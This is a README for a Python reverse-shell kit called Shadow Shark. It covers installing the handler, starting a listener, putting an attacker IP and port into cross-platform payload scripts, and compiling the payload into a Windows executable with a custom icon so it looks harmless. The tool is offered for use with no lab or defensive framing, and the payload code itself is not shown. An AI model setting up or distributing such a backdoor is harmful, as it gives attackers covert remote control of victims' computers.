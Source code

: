 # Shadow Shark Reverse Shell 
A full fledged reverse TCP payload written in pure python3.

## Installation
### Debian
```
$ sudo apt-get install python3 git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```
### Arch
```
$ sudo pacman -S python git
$ cd /opt/
$ sudo git clone https://github.com/MrSharkSpamBot/ShadowSharkReverseShell.git
$ cd ShadowSharkReverseShell/
$ sudo chmod +x ShadowShark
$ sudo cp ShadowShark /usr/bin/
```

## Usage
### ShadowShark.py
```
$ ShadowShark --help

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
usage: ShadowShark.py [-h] -lh LHOST -lp LPORT -e ENCRYPTION

This tool is a full fledged reverse TCP handler used to interact with Shadow
Shark payloads. Created by Mr. Shark Spam Bot.

optional arguments:
  -h, --help            show this help message and exit
  -lh LHOST, --lhost LHOST
                        Your IP address.
  -lp LPORT, --lport LPORT
                        The port to listen for connections on.
  -e ENCRYPTION, --encryption ENCRYPTION
                        The encryption used for sent and recieved data.
$ ShadowShark --lhost 0.0.0.0 --lport 8080 --encryption hex

	                                             ``
	                                       ``-+yhh-
	                                    `:ohNMMMy.                  `.-`
	                                `-ohNMMMMMM:                `.+hNy-
	             ``.-:+osyyyhhhhhdddmMMMMMMMMMm---:::--..``````+dMMMo
	      `:+syhdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNNNMMMMMo/-`                          ./o+
	  `+ymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMms:`                 `:ohNMd:
	`oNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMdo-          -+ymMMMMy-
	 :NMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/`  .+hNMMMMMNo.
	  `/+shdmymMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNhmMMMMMMMNo`
	  osdhdosydNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNo`
	  sdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMd/`
	   ``:shNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNy/.
	       ``./ohdNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNdhhdmNMMMMMMNd+.
	             ``.-:/+osyhdmNMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMNNdhs+-`` ````.:+yhmNMMNh+.
	                       ```.-:/+syyyhhdMMMMMMMMddddddddddddddNMMMMdo/:...``               ```.-/oys:
	                                     `mMMMMMMM``````````````.sNMMh
	                                      -mMMMMMM.               .smMy`
	                                       .yMMMMMh`                `:ys.
	                                         :yNMMMh.
	                                           .odNMm:
	                                             `-/sh:
    
[*] A reverse TCP handler on 0.0.0.0:8080 has successfully started...
```
### ShadowSharkPayload.py
This payload can run on Linux, Windows, and MacOS. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### UnixPayload.py
This payload can run on any Unix based system. To configure the payload go to line 35 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### WindowsPayload.py
This payload can run on any Windows system. To configure the payload go to line 29 and replace IP with your IP and replace PORT with the port on your computer you want connections be sent to and from.
### Compile.py
This compilation script can only be run on a Windows machine or Wine environment. To configure the compilation script go to line 14 and replace ICON with the icon file you want your exe file to have to have. To do this make sure that the ShadowSharkPayload.py script, your icon file, and the Compile.py script are in the same folder and that py2exe is installed.
```
# First install python3 on your Windows machine or Wine environment.
$ pip install py2exe
$ python Compile.py py2exe
```
